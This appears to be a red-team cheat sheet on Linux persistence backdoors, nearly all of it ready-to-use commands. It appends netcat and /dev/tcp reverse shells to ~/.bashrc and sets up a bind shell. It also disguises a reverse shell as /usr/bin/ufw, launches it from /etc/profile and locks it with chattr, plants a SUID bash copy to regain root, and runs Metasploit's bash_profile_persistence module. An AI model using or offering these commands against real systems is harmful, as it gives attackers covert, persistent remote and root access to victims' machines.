 # Backdoors

## 01 - Unix Shell

### 1.1 - Bashrc

- Reverse Shell

```
$ echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" >> ~/.bashrc

$ echo "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" >> ~/.bashrc
```

- Bind Shell

`$ echo "nc -e /bin/bash -lnvp 8080 &" >> ~/.bashrc`

### 1.2 - Bash Profiles

- Reverse Shell

```
$ sudo mv /usr/bin/ufw /tmp/ufw.bak

$ sudo echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" > /usr/bin/ufw

$ sudo echo "/usr/bin/ufw &" >> /etc/profile

$ sudo echo "/usr/bin/ufw &" >> /etc/skel/.profile

$ sudo chmod +sss /usr/bin/ufw

$ chattr +i /etc/skel/.profile /etc/profile /usr/bin/ufw
```

### 1.3 - SUID

```
user@debian:~$ sudo su -
root@debian:/home/user# cp /bin/bash /tmp/junk
root@debian:/home/user# chmod +xs /tmp/junk
root@debian:/home/user# ls -l /tmp/junk
-rwsr-sr-x 1 root root 1190928 Oct 20 13:55 bash-copy
root@debian:/home/user# exit
user@debian:~$ /tmp/junk -p
root@debian:/home/user# whoami
root
```

### 1.4 - OpenSSH

TODO: Fill this info

## 02 - Metasploit

### 2.1 - Bash Profile

```
msf > use exploit/linux/local/bash_profile_persistence

msf exploit(linux/local/bash_profile_persistence) > options

Module options (exploit/linux/local/bash_profile_persistence):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   BASH_PROFILE  ~/.bashrc        yes       Target Bash profile location. Usually ~/.bashrc or ~/.bash_profile.
   PAYLOAD_DIR   /var/tmp/        yes       Directory to write persistent payload file.
   SESSION                        yes       The session to run this module on


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/local/bash_profile_persistence) > set bash_profile </path/to/bash_rc_file>

msf exploit(linux/local/bash_profile_persistence) > set payload_dir </path/to/directory>

msf exploit(linux/local/bash_profile_persistence) > set lhost <IP>

msf exploit(linux/local/bash_profile_persistence) > set lport <PORT>

msf exploit(linux/local/bash_profile_persistence) > set session <session_id>

msf exploit(linux/local/bash_profile_persistence) > run
```

## References

- [Linux Backdoors and Where to Find Them](https://fahmifj.github.io/blog/linux-backdoors-and-where-to-find-them/)

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)

- [Pikami: Backdooring OpenSSH Server](https://pikami.org/blog/backdooring-openssh-server/)

- [Infecting SSH Public Keys with Backdoors](https://blog.thc.org/infecting-ssh-public-keys-with-backdoors)